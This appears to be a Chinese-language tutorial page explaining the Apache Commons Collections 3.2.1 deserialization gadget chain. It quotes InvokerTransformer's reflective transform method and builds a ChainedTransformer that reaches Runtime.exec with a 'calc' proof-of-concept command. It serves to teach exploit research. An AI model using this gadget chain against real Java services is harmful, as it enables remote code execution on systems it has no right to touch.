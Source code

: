 以下为Apache Commons Collections3.2.1

##### POP出口，找到危险操作的类

* 在Apache commons.collections中有一个InvokerTransformer实现了Transformer接口，主要作用为调用Java的反射机制来调用任意函数
* 我们重点关注InvokerTransformer的transform方法和构造函数，该方法通过反射执行了任意类的任意方法。

```java
public interface Transformer {
    public Object transform(Object input);

}
```

```java
public class InvokerTransformer implements Transformer, Serializable {

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {

            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
}
```

##### 获取Runtime.getRuntime()类并把这个类传入invokerTransformer.transform(runtime)函数中

* 直接上命令执行的代码

```java
Transformer[] transformers = new Transformer[] {
        //Runtime.class.getMethod('getRuntime').invoke()
        new ConstantTransformer(Runtime.class) /*TODO 多态*/,
        // 通过第一个参数函数名和第二个参数函数的参数类型获取函数，再通过第三个参数传入获取到的函数完成执行
        new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        //获取java.lang.class
};
Transformer transformerChain = new ChainedTransformer(transformers);
transformerChain.transform("123");
```